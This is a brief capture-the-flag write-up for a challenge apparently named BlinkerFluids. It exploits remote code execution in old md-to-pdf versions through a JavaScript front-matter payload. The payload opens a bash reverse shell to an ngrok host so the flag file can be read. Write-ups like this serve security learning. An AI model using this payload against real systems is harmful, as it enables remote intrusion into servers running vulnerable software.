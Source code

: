 # BlinkerFluids
## Recon
The application uses `md-to-pdf` to render Markdown as PDF invoices. Versions < 5.0.0 are prone to RCE because the gray-matter engine is enabled by default (allowing arbitrary javascript code to be executed).

## Foothold
Payload (line-breaks are important):
```
---js
((require("child_process")).execSync("bash -c 'bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14432 0>&1'"))
---RCE
```

This gives us a reverse shell allowing us to `cat /flag.txt`.